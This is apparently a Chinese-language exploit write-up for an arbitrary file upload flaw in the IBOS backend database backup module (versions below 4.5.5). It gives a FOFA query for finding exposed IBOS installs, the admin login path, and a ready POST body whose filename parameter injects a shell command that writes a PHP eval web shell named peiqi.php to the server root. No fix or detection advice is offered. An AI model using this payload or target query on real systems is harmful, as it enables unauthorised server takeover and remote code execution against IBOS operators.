

# IBOS 数据库模块 任意文件上传漏洞

## 漏洞描述

IBOS 后台数据库模块 存在任意文件上传漏洞，攻击者进入后台后可以上传恶意文件控制服务器

## 漏洞影响

> [!NOTE]
>
> IBOS < 4.5.5

## FOFA

> [!NOTE]
>
> body="IBOS" && body="login-panel"

## 漏洞复现

登录页面如下

```
http://xxx.xxx.xxx.xxx/?r=dashboard/default/login
```


找到数据库备份模块


提交并抓包



修改filename参数发送包会上传peiqi.php文件到根目录

```
backuptype=all&custom_enabled=1&method=shell&sizelimit=2048&extendins=0&sqlcompat=MYSQL41&sqlcharset=utf8&usehex=0&usezip=0&filename=peiqi%26echo "<?php eval($_REQUEST[peiqi]);?>">peiqi%PATHEXT:~0,1%php%26peiqi&dbSubmit=1
```

